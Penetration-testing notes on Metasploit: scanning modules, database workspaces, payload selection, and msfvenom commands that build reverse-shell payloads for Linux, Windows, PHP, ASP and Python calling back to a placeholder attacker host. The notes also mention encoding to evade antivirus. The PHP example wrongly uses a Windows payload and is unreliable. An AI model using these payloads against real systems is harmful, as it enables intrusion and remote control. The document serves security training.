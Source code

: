 ```yaml
---
description: Exploitation using Metasploit.
---
```


# Exploitation

### Scanning

Metasploit has many modules for port scanning, these can be listed using `search portscan` from `msfconsole`. Port scanning modules usually require some options to be set, such as:

* CONCURRENCY : number of ports to be scanned simultaneously
* PORTS : port range to be scanned, different from nmap, nmap will scan the most used 1000 ports, Metasploit will scan from 1 to 10,000.
* RHOSTS : target to scan
* THREADS : number of threads to be used simultaneously

The `/scanner/discovery/udp_sweep` module allows quick identification of UDP services, can help quickly identify DNS or NetBIOS.

The `smb_enumshares` and `smb_version` modules can be useful in corporate networks.

### Metasploit Database

The Metasploit Database can be used to simplify attacking several targets. To initialise this, use `systemctl start postgresql` followed by `msfdb init`. To verify this is running, enter `msfconsole` and then run `db_status`.

On launch, you will be in the default workspace, this can be verified by typing `workspace`. A workspace can be added using `-a` or removed using `-d`. You can jump between workspaces using `workspace [workspace_name]`.

In a database version of Metasploit, you can use `help` to list out the Database backend commands. Running `db_nmap` will save all results to the database. Information on relevant target hosts and services can now be viewed using `hosts` or `services` respectively. Using `hosts -R` will set the host(s) values to RHOSTS by default.

### Vulnerability Scanning

Metasploit allows quick identification of critical vulnerabilities which can be considered "low hanging fruit". This is typically any easily exploitable and vulnerable service that would allow a foothold on a server or even high-level privilege access. The better you are at scanning and fingerprinting a service, the easier it will be to identify critical vulnerabilities.

### Exploiting

Once you have selected an exploit, you can either use the default payload or select a payload using `show payloads` then `set payload [payload_name | line_number]`.&#x20;

### Msfvenom

Msfvenom allows you to generate your own payloads, it provides access to all available payloads in Metasploit and allows you to create them in many different formats, for many different systems. Msfvenom can generate a stand-alone payload or a usable raw format payload, you can list supported outputs by using `msfvenom --list formats`.

Encoders can be applied to try to evade antivirus, in most cases modern obfuscation or injection methods are far more effective. Encoding can be used with the `-e` option.

Example code to generate a generic php reverse shell would be: `msfvenom -p php/reverse_php LHOST=[IP_ADDR] LPORT=[PORT] -f raw > reverse_shell.php`. The output will be missing the starting PHP comment tag and the end tag, these should be added to convert it to a working PHP file.

Commonly used examples will follow here, in these examples LHOST will be the attacking IP of your machine and LPORT will be the port the handler listens on:

For Linux:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP_ADDR] LPORT=[PORT] -f elf > rev_shell.elf
```

Note for this one: .elf on Linux is like .exe on Windows, make sure when it is uploaded that it has executable permissions by running `chmod +x rev_shell.elf`.

For Windows:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP_ADDR] LPORT=[PORT] -f exe > rev_shell.exe
```

For PHP:

```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=[IP_ADDR] LPORT=[PORT] -f raw > rev_shell.php
```

For ASP:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP_ADDR] LPORT=[PORT] -f asp > rev_shell.asp
```

For Python:

```
msfvenom -p cmd/unix/reverse_python LHOST=[IP_ADDR] LPORT=[PORT] -f raw > rev_shell.py
```
